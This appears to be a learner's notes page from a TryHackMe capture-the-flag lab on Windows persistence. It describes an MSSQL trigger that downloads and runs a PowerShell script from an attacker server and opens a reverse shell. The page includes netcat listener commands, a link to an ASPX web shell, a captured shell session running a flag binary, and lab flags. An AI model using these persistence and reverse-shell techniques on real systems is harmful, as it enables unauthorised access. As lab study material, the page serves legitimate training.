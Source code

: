     The trigger will perform the first connection to download and execute evilscript.ps1. Our trigger is using port 8000 for that.
    The second connection will be a reverse shell on port 4454 back to our attacker machine.

```

AttackBox

user@AttackBox$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 

        


```

```

AttackBox

user@AttackBox$ nc -lvp 4454
Listening on 0.0.0.0 4454

        


```

	With all that ready, let's navigate to http://MACHINE_IP/ and insert an employee into the web application. Since the web application will send an INSERT statement to the database, our TRIGGER will provide us access to the system's console.
	THM flagUse your web shell to execute C:\flags\flag17.exe to get your flag!


```

```

![[Pasted image 20220911180949.png]]

![[Pasted image 20220911181031.png]]

Insert flag16 here
*THM{EZ_WEB_PERSISTENCE}* https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx

![[Pasted image 20220911181956.png]]

![[Pasted image 20220911182030.png]]

![[Pasted image 20220911182053.png]]

![[Pasted image 20220911182115.png]]
```
┌──(kali㉿kali)-[~/payloads]
└─$ nc -lvp 4454
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4454
Ncat: Listening on 0.0.0.0:4454
Ncat: Connection from 10.10.242.120.
Ncat: Connection from 10.10.242.120:49763.
whoami
nt service\mssql$sqlexpress
PS C:\Windows\system32> cd C:\Flags
PS C:\Flags> .\flag17.exe
THM{I_LIVE_IN_YOUR_DATABASE}

```